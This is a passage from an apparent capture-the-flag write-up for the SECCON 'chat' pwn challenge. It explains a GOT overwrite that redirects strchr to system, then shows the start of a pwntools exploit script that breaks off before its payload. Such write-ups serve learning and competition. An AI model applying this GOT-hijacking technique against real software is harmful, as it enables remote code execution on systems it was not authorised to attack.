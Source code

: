 
That's right ! If we change the `userC->name` pointer into `0x60302a`, we can start overwriting the content from `0x60302a`. We first filled the GOT entry of `stack_chk_fail` with some printable characters ( now the first character of new user name is printable ! ), then we can start hijack some GOT ! 

Here I decided to hijack `strchr`'s GOT so when the program call `strchr(buf, 10)` ( `buf` stores our input ) it will call `system(buf)` instead.  
```python
#!/usr/bin/env python

from pwn import *
import subprocess
import sys
import time

HOST = "chat.pwn.seccon.jp"
PORT = 26895
ELF_PATH = "./chat"
LIBC_PATH = "/lib/x86_64-linux-gnu/libc.so.6" # ubuntu 14.04 64bit

# setting 
context.arch = 'amd64'
context.os = 'linux'
context.endian = 'little'
context.word_size = 32
# ['CRITICAL', 'DEBUG', 'ERROR', 'INFO', 'NOTSET', 'WARN', 'WARNING']
context.log_level = 'INFO'

elf = ELF(ELF_PATH)
libc = ELF(LIBC_PATH)

def my_recvuntil(s, delim):
    res = ""
    while delim not in res:
        c = s.recv(1)
        res += c
        sys.stdout.write(c)
        sys.stdout.flush()
    return res

def myexec(cmd):
    return subprocess.check_output(cmd, shell=True)

def signup(name):
    r.sendlineafter("> ", "1")
    r.sendlineafter("> ", name)

def signin(name):
    r.sendlineafter("> ", "2")
    r.sendlineafter("> ", name)

def tweet(msg):
    r.sendlineafter(">> ", "4")
    r.sendlineafter(">> ", msg)

def dm(user, msg):
    r.sendlineafter(">> ", "5")
    r.sendlineafter(">> ", user)
    r.sendlineafter(">> ", msg)

def signout():
    r.sendlineafter(">> ", "0")

def change_name(name):
```